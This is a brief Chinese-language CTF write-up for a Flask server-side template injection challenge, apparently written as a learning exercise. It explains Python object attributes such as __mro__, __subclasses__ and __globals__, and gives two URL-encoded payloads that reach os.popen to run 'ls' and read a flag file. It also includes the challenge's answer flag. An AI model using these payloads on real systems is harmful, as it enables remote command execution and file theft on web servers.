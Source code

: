 # Web_Python_Template_Injection

> flask ssti注入

## 思路分析

> \_\_class\_\_  返回类型所属的对象
> \_\_mro\_\_    返回一个包含对象所继承的基类元组,方法在解析时按照元组的顺序解析
> \_\_base\_\_   返回该对象所继承的基类
> \_\_base\_\_和\_\_mro\_\_    都是用来寻找基类的
> \_\_subclasses\_\_   每个新类都保留了子类的引用,这个方法返回一个类中仍然可用的的引用的列表
> \_\_init\_\_  类的初始化方法
> \_\_globals\_\_  对包含函数全局变量的字典的引用

> flask ssti注入,找到一步一步的找到利用链条即可

## payload

> %7B%7B''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[71].\_\_init\_\_.\_\_globals\_\_['os'].popen('ls').read()%7D%7D

> %7B%7B''.\_\_class\_\_.\_\_mro__[2].\_\_subclasses\_\_()[71].\_\_init\_\_.\_\_globals\_\_['os'].popen('cat%20fl4g').read()%7D%7D

## flag

> ctf{f22b6844-5169-4054-b2a0-d95b9361cb57}

## 参考

> https://xz.aliyun.com/t/3679
> https://blog.csdn.net/qq_45774670/article/details/110223398